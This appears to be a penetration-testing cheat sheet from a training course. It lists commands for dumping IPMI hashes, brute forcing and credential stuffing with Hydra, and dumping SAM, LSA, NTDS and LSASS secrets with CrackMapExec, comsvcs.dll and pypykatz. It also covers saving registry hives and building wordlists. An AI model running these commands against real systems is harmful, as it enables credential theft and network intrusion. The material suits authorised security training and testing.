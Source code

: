 IPMI version detection using Metasploit
- `msf6 auxiliary(scanner/ipmi/ipmi_version)`

Dump IPMI hashes using Metasploit
- `msf6 auxiliary(scanner/ipmi/ipmi_dumphashes)`
### Linux Remote Management SSH

Enforce password-based authentication
- `ssh <user>@<FQDN/IP> -o PreferredAuthentications=password`

## Password Attacks

### Password Mutations

Generate a wordlist based on keywords from a website using cewl
- `cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist`

Generate a rule-based wordlist with Hashcat
- `hashcat --force password.list -r custom.rule --stdout > mut_password.list`

Generate usernames from first and last names using username-anarchy
- `./username-anarchy -i /path/to/listoffirstandlastnames.txt`
### Remote Password Attacks

Crack passwords using Hydra with user and password lists
- `hydra -L user.list -P password.list <service>://<ip>`

Perform credential stuffing with Hydra using a credentials file
- `hydra -C <user_pass.list> ssh://<IP>`

Dump SAM hashes over the network with CrackMapExec
- `crackmapexec smb <ip> --local-auth -u <username> -p <password> --sam`

Dump LSA secrets (may contain clear-text credentials)
- `crackmapexec smb <ip> --local-auth -u <username> -p <password> --lsa`

Dump NTDS hashes over the network
- `crackmapexec smb <ip> -u <username> -p <password> --ntds`
### Windows Password Attacks

Search for "password" in various file types
- `findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml`

Display LSASS process information
- `Get-Process lsass`

Create an LSASS memory dump
- `rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full`

Extract credentials from LSASS dump with Pypykatz
- `pypykatz lsa minidump /path/to/lsassdumpfile`

Save registry hives (SAM, SECURITY, SYSTEM)
- `reg.exe save hklm\sam C:\sam.save`
- `reg.exe save hklm\security C:\security.save`
- `reg.exe save hklm\system C:\system.save`
